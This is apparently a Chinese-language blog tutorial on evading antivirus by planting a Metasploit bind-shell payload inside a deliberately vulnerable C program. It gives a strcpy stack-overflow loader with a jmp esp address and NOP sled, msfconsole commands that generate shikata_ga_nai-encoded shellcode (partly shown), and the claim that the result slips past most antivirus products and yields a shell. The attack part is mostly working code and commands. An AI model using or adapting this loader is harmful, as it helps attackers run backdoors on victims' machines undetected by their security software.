




通过溢出漏洞绕过杀毒防护
思路
通过编写一具有溢出漏洞的程序，并将恶意代码写入 shellcode 中，溢出后执行 shellcode 可以绕过杀毒软件的防护。
测试环境
- Platform：Windows XP SP3
- Compiler：VC 6.0
测试代码
构造如下漏洞代码加载 shellcode：
#include <stdio.h>
#include <string.h>
void overflow(char * input)
{
char buf[4];
strcpy(buf, input);
}
void main()
{
char shellcode[] = "AAAAAAAA"
"\x7b\x46\x86\x7c" //jmp esp
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"shellcode"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90";
overflow(shellcode);
}
首先，通过 msfpayload 生成一 payload，进行查杀，发现大部分杀毒都会报毒：

生成 shellcode，并填入源码中：
msf > use payload/windows/shell/bind_tcp
msf payload(bind_tcp) > generate -b '\x00' -t c
/*
* windows/shell/bind_tcp - 312 bytes (stage 1)
* http://www.metasploit.com
* Encoder: x86/shikata_ga_nai
* VERBOSE=false, LPORT=4444, RHOST=,
* PayloadUUIDTracking=false, EnableStageEncoding=false,
* StageEncoderSaveRegisters=, StageEncodingFallback=true,
* PrependMigrate=false, EXITFUNC=none, InitialAutoRunScript=,
* AutoRunScript=
*/
unsigned char buf[] =
"\xbd\x81\xf6\x2c\x43\xd9\xe9\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x48\x83\xc0\x04\x31\x68\x0f\x03\x68\x8e\x14\xd9\xbf\x78\x5a"
"\x22\x40\x78\x3b\xaa\xa5\x49\x7b\xc8\xae\xf9\x4b\x9a\xe3\xf5"
"\x20\xce\x17\x8e\x45\xc7\x18\x27\xe3\x31\x16\xb8\x58\x01\x39"
···
编译后发现成功绕过绝大多数杀毒软件：

成功返回 shell（test with 360）：


其他
@糖果师傅说这个思路在 02 年的时候就已经被提出来个，但是不知道为什么还是可以用，估计原因是杀毒软件还是偏向于静态查杀？
附 2002 年 Xcon 上的相关资料：溢出植入型木马（后门）的原型实现